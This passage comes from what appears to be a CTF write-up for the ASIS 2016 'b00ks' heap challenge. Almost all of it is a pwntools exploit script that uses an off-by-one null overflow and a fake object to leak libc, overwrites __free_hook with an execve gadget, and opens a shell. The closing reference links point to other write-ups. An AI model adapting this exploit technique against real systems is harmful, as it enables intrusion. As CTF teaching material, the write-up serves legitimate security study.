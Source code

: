 ```
     p.sendline("asdf")
     log.info(p.recvuntil(":"))
     p.sendline(str(size))
     log.info(p.recvuntil(":"))
     p.sendline("asdf")
     log.info(p.recvuntil(">"))

def release():
     p.sendline("2")
     log.info(p.recvuntil(":"))
     p.sendline("2")

log.info(p.recvuntil(":"))
p.sendline("A"*32)
log.info(p.recvuntil(">"))
create_book(p, 140)
addr = memleak1(p) + 0x38             #address of second object on heap
create_book(p, 0x21000)               #allocate new area
payload = "A"*0x40 + p64(0x1) + p64(addr) * 2 + p64(0xffff) #fake obj
fake_obj(p, payload, 1)
change_ptr(p)                         #null overflow
addr = memleak2(p)
log.info(hex(addr))

#part two
libcbase = addr - 0x5a9010
malloc_hook = libc.symbols['__free_hook'] + libcbase
execve_addr = libcbase + 0x4526a

#part three
payload = p64(malloc_hook) * 2
fake_obj(p, payload, 1)
payload = p64(execve_addr)
fake_obj(p, payload, 2)
release()

p.interactive()
```
#### 参考链接
[几乎唯一的WP](https://amritabi0s.wordpress.com/2016/06/11/asis-ctf-quals-2016-b00ks-writeup/)
[CTF WIKI](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/off_by_one/)
